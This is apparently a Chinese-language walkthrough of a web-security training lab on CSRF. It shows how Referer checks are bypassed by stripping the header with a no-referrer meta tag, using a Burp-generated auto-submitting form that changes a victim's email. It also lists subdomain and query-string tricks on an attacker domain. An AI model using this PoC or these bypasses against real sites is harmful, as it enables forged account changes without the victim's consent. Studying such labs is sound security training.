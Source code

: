 并观察如果更改Referer HTTP头中的域，则请求将被拒绝<br/> 完全删除Referer标头，并观察请求现在已被接受

<hr/>
 part2:
创建并托管概念利用验证，包含以下HTML以隐藏"引用者"标题：
<pre>`&lt;meta name="referrer" content="no-referrer"&gt;`</pre>
生成poc，并加上上述的referrer设置

完整的为
<pre><code>&lt;meta name="referrer" content="no-referrer"&gt;
&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://0ade00340423eac1c0e745e900c40005.web-security-academy.net/my-account/change-email" method="POST"&gt;
      &lt;input type="hidden" name="Cookie&amp;#58;&amp;#32;session" value="vnfo6JaZrfEqBxULoEnwjJiA9YGwtd2g" /&gt;
      &lt;input type="hidden" name="Upgrade&amp;#45;Insecure&amp;#45;Requests&amp;#58;&amp;#32;1" value="" /&gt;
      &lt;input type="hidden" name="Sec&amp;#45;Fetch&amp;#45;Dest&amp;#58;&amp;#32;document" value="" /&gt;
      &lt;input type="hidden" name="Sec&amp;#45;Fetch&amp;#45;Mode&amp;#58;&amp;#32;navigate" value="" /&gt;
      &lt;input type="hidden" name="Sec&amp;#45;Fetch&amp;#45;Site&amp;#58;&amp;#32;same&amp;#45;origin" value="" /&gt;
      &lt;input type="hidden" name="Sec&amp;#45;Fetch&amp;#45;User&amp;#58;&amp;#32;&amp;#63;1" value="" /&gt;
      &lt;input type="hidden" name="email" value="111111&amp;#64;qq&amp;#46;com" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre>
存储(store)漏洞，然后单击"Deliver to victim"（发送给受害者）

 完成实验




---


> 
<h3>3、可以绕过引用方的验证</h3>
1、某些应用程序验证Referer报头以一种可以被绕过的简单方式。
<pre><code>1、如应用程序验证Referer以预期值开始，则攻击者可以将其作为自己域的子域：
http://vulnerable-website.com.attacker-website.com/csrf-attack

2、如果应用程序只是验证Referer包含其自己的域名，则攻击者可以将所需的值放在URL中的其他位置：
http://attacker-website.com/csrf-attack?vulnerable-website.com</code></pre>
